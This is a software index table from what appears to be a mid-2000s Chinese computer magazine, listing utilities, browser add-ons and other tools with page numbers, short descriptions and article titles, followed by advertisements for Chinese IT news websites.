| 29 | 305 | 代理超人 1.1 | 方便地搜索和设置代理服务器 | 突破教育网 舒舒服服用代理 |
| 30 | 94 | Password Depot 1.7.2.0 | 保存密码的利器 | 可怜的密码，我要保护你！ |
| 31 | 95 | MiTeC PE Image Shell Extension 3.0 | 可在右键菜单中预览图片的看图软件 | 看图从来没有这样轻松 |
| 32 | 158 | FlyakiteOSX 1.0 | 让你的Windows XP变成“苹果”电脑 | 资源和美丽我全要 XP完美克隆Mac OS |
| 33 | 159 | DOS虚拟光驱启动盘 | 用ISO镜像安装系统 | 超越ISOEMU 用ISO文件重装Windows |
| 34 | 159 | Inno Setup 5.0.6 | 制作软件安装包 | 我的第一款Software发布啦 |
| 35 | 284 | MAC地址更改精灵 2.21 | 修改MAC地址 | 新软物语 |
| 36 | 284 | DownUp2U 1.0 build1215 | 批量下载不同文件 | 新软物语 |
| 37 | 285 | KillBox 汉化版 | 删除不能删除的文件 | 新软物语 |
| 38 | 285 | The SphereXP 0.80.5 | 提前体验Longhorn的3D界面 | 新软物语 |
| 39 | 285 | QQ浏览器转IE工具 2.0 | 让IE代替QQ浏览器 | 新软物语 |
| 40 | 292 | mirandaIM For QQ | 想挂QQ等级的就用此工具 | Cfan小白鼠 |
| 41 | 307 | MailWasher Pro V 4.19 | 强大的垃圾邮件过滤工具 | 垃圾邮件 你真的惹恼我了！（上） |
| 42 | 306 | IE修复专家 2005 | 全面保护IE浏览器 | 给IE换上新“冬衣”吧 |
| 43 | 310 | Microsoft AntiSpyware BETA 1.0 | 微软的反间谍广告工具 | “皇家近卫军”——Microsoft AntiSpyware |
| 44 | 168 | MaxiVisa 1.5.3 | 不用视频线，实现显示器扩展 | 我的显示器在你的机器里 |
| 45 | 167 | 真人原唱手机铃声DIY工具 1.0 | 转换任意音频文件为铃声 | 手机铃声DIY 彰显个性 |
| 46 | 169 | DiaryOne 4.0 | 非常漂亮的日记本软件 | 日记 日记 用电脑来记 |
| 47 | 285 | IP2 1.03 | 轻松获得外网IP地址 | 新软物语 |
| 48 | 285 | QQ个性昵称1.0.0 | 轻松修改QQ昵称 | 新软物语 |
| 49 | 285 | 网络驿站 2.0 | 将图片、文件上传到免费的网络共享中 | 新软物语 |
| 50 | 285 | MSN好友消息群发工具 1.0.0 | 在MSN上群发消息 | 新软物语 |
| 51 | 286 | 词霸搜索客户端 1.5 | 免费的查词工具 | 新软物语 |
| 52 | 170 | MoleBox Pro 2.2.6 | 制作只有一个文件的绿色软件 | 自制只有一个文件的绿色软件 |
| 53 | 174 | mProjector 2.0 | 将Flash动画转为EXE可执行文件，具有一些附加功能 | 打造超酷Flash桌面小时钟 |
| 54 | 175 | PhotoShow Deluxe 3.0 | 一款多功能的数码照片处理工具 | 让照片“秀”出不一样的风采 |
| 55 | 308 | SpamBayes 1.01 | 免费的Outlook专用贝叶斯插件 | 垃圾邮件 你真的惹恼我了！（下） |
| 56 | 313 | 网易相册上传(下载)专家 1.05 | 网易相册辅助工具 | 请来专家 网易相册更快更强 |
| 57 | 313 | V-CamShow 1.4.0.0 | 用屏保就能查看网络摄像头 | 绝对隐私！隐藏在互联网上的摄像头 |
| 58 | 99 | FBDISK 1.1 | 自动屏蔽坏道的分区软件 | 硬盘，我要精心呵护你 |
| 59 | 178 | CLCL 1.1 | 功能强大的剪贴板工具 | 给Windows换个强力剪贴板 |
| 60 | 182 | Digital Film 1.62 | 制作数码反转片 | 数码照片仿真“反转片” |
| 61 | 286 | 简繁互转小工具 1.0 | 简体、繁体互转的小工具 | 新软物语 |
| 62 | 286 | DESK PROJECTION 1.0.6 | 让MM的照片常驻桌面 | 新软物语 |
| 63 | 293 | Sunny FreeWizard 3.0 | 解除软件使用限制 | Cfan小白鼠 |
| 64 | 286 | 输入法卸载清理工具 0.51 | 卸载常用输入法 | 新软物语 |
| 65 | 286 | Pentium 4 MagicSpeed 2.3 | 按需分配CPU资源 | 新软物语 |
| 66 | 286 | 迷你迅雷 迷你版 | 非常不错的下载工具 | 新软物语 |
| 67 | 315 | Google Desktop Search | Google桌面搜索工具 | 三个桌面搜索都是大腕 我该挑谁？ |
| 68 | 315 | MSN Toolbar Suite | MSN桌面搜索工具 | 三个桌面搜索都是大腕 我该挑谁？ |
| 69 | 315 | Yahoo! Desktop Search | Yahoo!桌面搜索工具 | 三个桌面搜索都是大腕 我该挑谁？ |
| 70 | 316 | eXeem 0.2 Public Beta | 下一代BT软件 | 下一代BT软件来了！ |
| 71 | 317 | MyShow 1.56 | 五分钟将你的电脑变成服务器 | 五分钟 你的电脑变成服务器 |
| 72 | 318 | 周博通 Beta0.94 | 免费的RSS中文阅读器 | 玩转RSS 天下信息随心看 |
| 73 | 318 | KlipFolio 2.6 | 界面精美、小巧易用的RSS阅读器 | 玩转RSS 天下信息随心看 |
| 74 | 58 | MYBT服务器 3.0 | 搭建自己的BT种子服务器 | 局域网的幸福生活 |
| 75 | 58 | Windows Media Encoder 9.0 | 微软媒体编码广播工具 | 局域网的幸福生活 |
| 76 | 187 | NeroVision Express 3.1.0.0 | 刻录VCD 2.0 | 利用NeroVision Express轻松自制专业VCD |
| 77 | 286 | DrvCareXP 4.2 | 可用于计划任务的硬盘整理小工具 | 新软物语 |
| 78 | 287 | VE-mail 1.1 | 在Outlook 2003中发送视频邮件的小插件 | 新软物语 |
| 79 | 287 | 英语格言警句 1.2 | 英语格言警句的中英文互译 | 新软物语 |
| 80 | 287 | Java Launcher 2.5 | 双击就能运行Java小程序的软件 | 新软物语 |
| 81 | 287 | HDDlife N/A | 监测硬盘数据的小工具 | 新软物语 |
| 82 | 287 | Coolbits N/A | 为nVIDIA显卡设置界面增加超频选项 | 新软物语 |
| 83 | 188 | System Safety Monitor 1.9.6 Beta 2 | 严密监视系统中的一举一动 | 给Windows装个强力监视器 |
| 84 | 320 | Jybe BETA版 | 多人在线共同浏览工具 | 和MM一同看网去 |
| 85 | 320 | 万能文本 1.01 | 突破邮件附件大小限制 | 送你六招 玩转Web邮箱 |
| 86 | 195 | Ugo tool 1.33 | 制作会震动的论坛签名 | 又晃又抖 制作酷酷的震动签名 |
| 87 | 196 | Kaillera 0.86 | 模拟器联机工具 | 教你和远方朋友一起打游戏 |
| 88 | 197 | IconWorkshop 5.03 | 图标制作工具 | 轻轻松松学做XP风格图标 |
| 89 | 287 | MediaJoin 2.0 | 合并音、视频文件 | 新软物语 |
| 90 | 288 | AveAvatarCreator N/A | 制作个性化的MSN Messenger头像 | 新软物语 |
| 91 | 288 | TheCompressorator 1.23.1049 | 快速找出两张图片的区别 | 新软物语 |
| 92 | 288 | TaskSwitchXP 2.0 Beta 4 | 使用Alt+Tab时可以显示不同任务的窗口 | 新软物语 |
| 93 | 288 | Hijack N/A | 测试防火墙的反支持能力 | 新软物语 |
| 94 | 294 | zxh透明多功能桌面时钟 3.41 | 桌面上的透明小时钟 | Cfan小白鼠 |
| 95 | 397 | URL编码转换工具 | 转换网址中的“乱码”转换为正常文字 | 巧用工具修改“乱码”文件名 |
| 96 | 201 | K-Lite Codec Pack 2.41 Full | 包含了很多的解码器，能让你的播放器支持更多的影音格式 | 用好Media Player休闲娱乐任我行 |
| 97 | 104 | System Mechanic Professional 5.5a | 必备的系统维护工具箱 | 系统维护 舍我其谁 |
| 98 | 105 | MaxDOS 2.0 | 在Windows 2000/XP/2003中轻松拥有DOS | DOS快餐店（番外篇） |

# 软件检索

| 序号 | 页码 | 软件名称 | 软件说明 | 文章标题 |
|------|------|----------|----------|----------|
| 99 | 325 | 百度硬盘搜索 V1.0 | 百度公司推出的桌面搜索工具 | 本土化的百度桌面搜索来了 |
| 100 | 323 | 火狐Flashplayer 3.05 | 简单好用的Flash播放工具 | 我是一只猎杀Flash的狐狸 |
| 101 | 326 | Ultra Network Sniffer 1.3 Build 60 | 侦测影片真实播放地址的工具 | 强！从网卡中“夺取”真实播放地址 |
| 102 | 327 | LumaQQ Windows版 V20050303 | 能够查看隐身好友的QQ聊天软件 | 隐身好友 看我的如来神掌！ |
| 103 | 327 | AliBaBar 5.1 | 一秒钟让网页文字简繁速转 | 浏览器也能体验“简单爱” |
| 104 | 207 | DiskLogon 2.2 | 将你的闪存盘变为“密钥盘” | 将你的闪存盘变为“密钥盘” |
| 105 | 207 | DM万用版 9.57 | 可对硬盘进行快速低格、分区、高格等操作 | DM万用版 免费的硬盘大管家 |
| 106 | 288 | AutorunCD Assistant 1.16 | 五步制作Autorun.inf文件 | 新软物语 |
| 107 | 288 | JobFinder 3.21 | 搜索知名招聘网站的招聘信息 | 新软物语 |
| 108 | 294 | Celestia 1.3.2 | 模拟3D宇宙空间 | Cfan小白鼠 |
| 109 | 288 | LCD Saver Utility 2.1 | 保护你的LCD屏幕 | 新软物语 |
| 110 | 289 | GameJack 4.0 | 备份加密光盘 | 新软物语 |
| 111 | 288 | 超级自动注册申请王 1.6 | 申请常用ID | 新软物语 |
| 112 | 210 | IceSword 1.06 | 功能强大的反黑工具 | 斩断系统“黑手”——IceSword冰刃 |
| 113 | 328 | BT搜索专家 v1.0 | 快速从多个网站搜索BT资源 | 轻松做个寻种大师 |
| 114 | 330 | QQ for Maxthon 1.0 | 在Maxthon使用QQ的插件 | 我的QQ 你快回来！ |
| 115 | 328 | IEHistoryView 1.22 | 保留特定IE访问记录 | IE历史记录我做主！ |
| 116 | 332 | QQ2005贺岁版之珊瑚虫版 3.04 | 给QQ增加查看好友隐身等功能 | 显隐身 让我看到透明的你 |
| 117 | 214 | WinRAR 3.50 Beta 2 | 经典压缩软件的最新版本 | 我的WinRAR会换肤 |
| 118 | 216 | PhotoTools 3.06 | 给Photoshop装个快捷工具栏 | 给Photoshop CS装上得心应手的快捷工具栏 |
| 119 | 289 | 注册表快捷方式 3.0 Final | 快速打开注册表指定项 | 新软物语 |
| 120 | 289 | 不准玩游戏 2005 VIII.2 | 限制小孩儿玩游戏的时间 | 新软物语 |
| 121 | 289 | Alias SketchBook Pro 1.1.1汉化版 | 功能强大的手绘软件 | 新软物语 |
| 122 | 289 | 精锐网吧辅助工具 4.0 | 破解系统限制的软件 | 新软物语 |
| 123 | 289 | MSN桃源助手 3.0 | 免费使用动态表情的软件 | 新软物语 |
| 124 | 290 | MSN幸运虫Luckbug版通讯工具 0.9.9 | 中文版的SlideBar | 新软物语 |
| 125 | 217 | Uplink 1.31 | 非常有意思的黑客软件 | 黑客 就这样在游戏中炼成 |
| 126 | 334 | CustoMess RC2 | 给MSN Messenger增加免费表情、背景 | 新的MSN Messenger 我还要你更个性！ |
| 127 | 336 | 网络猪 3.0 | 集成IE和新闻搜索功能的免费工具软件 | 今晚 我要做新闻主播！ |
| 128 | 290 | IPSubnetter 1.0 | 计算子网掩码的小工具 | 新软物语 |
| 129 | 290 | Avelconifier | 将图片转换为图标文件 | 新软物语 |
| 130 | 290 | 雪狐迷你钟 1.2 | 非常漂亮的桌面时钟 | 新软物语 |
| 131 | 290 | 雪狐日历精灵 1.51 | 能够显示天气预报、农历的桌面日历 | 新软物语 |
| 132 | 290 | Walleye 0.01 | 将几张照片组合一起制作作为一张壁纸 | 新软物语 |
| 133 | 229 | EmEditor插件 | EmEditor的插件全集 | 让EmEditor实用功能更上一层楼 |
| 134 | 337 | MereSurfer 10.7 | 具有多窗口功能的IE增强软件 | 强！IE摇身变Maxthon |
| 135 | 338 | 网络驿站 2.5 | 为你上传论坛图片的专用工具 | 瞬间成为论坛高手 |
| 136 | 339 | 论坛抽水机 1.9 | 论坛帖子批量下载 | 论坛帖子随身带 |
| 137 | 135 | MakeNewFolder 2.1.1 | 快速建立文件夹 | 比MD更快、更方便地建立文件夹 |
| 138 | 133 | nLite 0.99.9 | 精简Windows安装文件 | 我的Windows XP安装盘只有200MB！ |
| 139 | 235 | USBoot 1.66 | 快速让闪存盘变启动盘 | 三步！闪盘变成启动盘 |
| 140 | 291 | ENV（环境变量精灵）2004 | 备份环境变量的小软件 | 新软物语 |
| 141 | 291 | GMask 1.70 | 添加/去除马赛克 | 新软物语 |
| 142 | 291 | RegScanner 1.00 | 在注册表中搜索指定键值 | 新软物语 |
| 143 | 291 | MM Player 2.0 | 为你的系统添加动态壁纸 | 新软物语 |
| 144 | 291 | Windows进程管理器 2.0 | 查看进程文件 | 新软物语 |
| 145 | 291 | 词虎 2.0 | 对地名等关键词进行快速搜索 | 新软物语 |
| 146 | 240 | Flash橡皮擦 0.8 | 可以修改已有的SWF动画文件 | 新软物语 |
| 147 | 342 | Free Download Manager | 可以选择从压缩包下载指定内容的工具 | 新软物语 |
| 148 | 344 | 网络猪 3.0 | 搜索增强工具 | 惊人！网上答题之快搜作弊法！ |

# 走进中关村 国内著名IT专业网站

全新改版在即，四大频道，六大中心，立足中关村，全面报道IT产业新闻、行情、报价、评测，实时跟进，为消费者提供极其实用有效的电脑和数码产品导购资讯。

www.zgctv.com IT业界新闻·IT产品发布

自中关村电视网站成立以来，已经成功报道了近200场各类IT新闻发布会，其中涉及INTEL、AMD、NVIDIA、ATI、SONY、CANON、PHILIPS、LENOVO、ASUS、MSI、BENQ、ABIT、RISING、MAG、AIGO等国内外知名厂商。

目前中关村电视网站共有小蔡学硬件、软件手把手、新品速递、每日行情、市场动态等五大主要视频板块，可以为网友、客户提供全方位的原创IT网络视频服务。

经过两年多来的探索和实践，中关村电视网站已经具备从节目策划、拍摄、后期制作一直到发布的全方位服务能力，可为客户提供付费节目、广告、新闻发布会报道等商业性服务。

# 国内首家原创 IT 网络视频站

# 网易数码

digi.163.com

极有看头的数码消费产品频道

### 产品送测

- Email: buy@servicenetease.com
- 电话: 020-83881512-319

